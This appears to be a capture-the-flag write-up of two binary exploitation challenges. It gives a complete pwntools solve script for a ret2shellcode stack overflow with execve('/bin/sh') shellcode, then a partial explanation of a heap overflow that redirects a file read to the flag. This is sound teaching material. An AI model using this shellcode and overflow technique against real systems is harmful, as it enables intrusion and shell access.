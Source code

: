 ## Pwn/MorseCode Encoder

### Initial Analysis

![image](https://github.com/user-attachments/assets/75fea0e5-d9df-44c0-a4ff-e240702dae63)

All of the security protections have been turned off (except ASLR of course).

![image](https://github.com/user-attachments/assets/630985d6-ce73-4b4a-b719-ad06f6062481)

When running the binary, we can see that it leaks out the address of our buffer, which is located in the stack memory region. The challenge is screaming ret2shellcode since we are given the address of the buffer and NX (No eXecute) protection is turned off. NX is a protection which prevents execution of shellcode in the stack. So, the basic idea is to inject shellcode into the buffer and overwrite the saved return address to point to our shellcode.

![image](https://github.com/user-attachments/assets/b1ceda87-4725-4f2f-8790-e51fc736bb5b)

However, when you overwrite the values which are popped into ecx, ebx and ebp, it will affect where the return goes to due to `lea esp, [ecx-0x4]`. So, we need to control the value of ecx since it will be moved into esp and control our return address.

![image](https://github.com/user-attachments/assets/0c379971-a400-413b-97bc-604b0818d413)

Just 12 bytes below our input, there is a pointer to our buffer. So, that will be our target. Now, we just need a shellcode. You can use msfvenom, shellcraft or find it online. I used shellcode from https://shell-storm.org/shellcode/files/shellcode-811.html

### Solve Script

```py
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./morse-converter')
libc = exe.libc

host = "morsecode-encoder.ihack24.capturextheflag.io"
port = 1337

gdb_script = '''
b *main+141
c
'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

# p = exe.process()
p = remote(host,port)
# p = gdb.debug('./morse-converter', gdbscript = gdb_script)

offset = 1024

sc = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

ru(b"address: ")
leak = int(r(10), 16)
tar = leak - 0x10

payload = sc.rjust(1024, b"\x90")
payload += p32(tar+8) * 10

sla(b"Enter]: ", payload)

p.interactive()
```

![image](https://github.com/user-attachments/assets/4856326e-f2e0-48ee-ae31-4c1bf492e4e5)

## Pwn/EtcPasswd Reader

### Initial Analysis

![image](https://github.com/user-attachments/assets/83fc02d5-dc22-492d-87cc-06c3f6240998)

Opening the binary in Ghidra, we can see that there is a buffer overflow with the gets() function inside the heap memory region due to the use of `malloc(0x40)`. Then, there is a second chunk allocated which contains the path `/etc/passwd`. So the goal is simple, bof enough until we reach the 2nd chunk and overwrite with the path to the flag. 

```
└─$ cat Dockerfile 
FROM ubuntu:22.04
ENV LC_CTYPE C.UTF-8
ENV DEBIAN_FRONTEND=noninteractive

<-- setup snippet -->

# flag location: /flag/secretflag/flag

CMD ["/start.sh"]

EXPOSE 9997
```

In the dockerfile, we can find the path to the flag. Before we go into exploitation, we need a little understanding about a heap structure first.

![image](https://github.com/user-attachments/assets/f4f8bc26-3782-4c63-8e3e-ce7cd50f149a)

The image above shows the structure of a heap chunk when we allocate it. The payload area is the location where we can store data. Above the payload, there is some metadata about the heap chunk. For example, the size of the chunk and also some flags (AMP) needed for internal functions. We can verify this by taking a look in gdb.

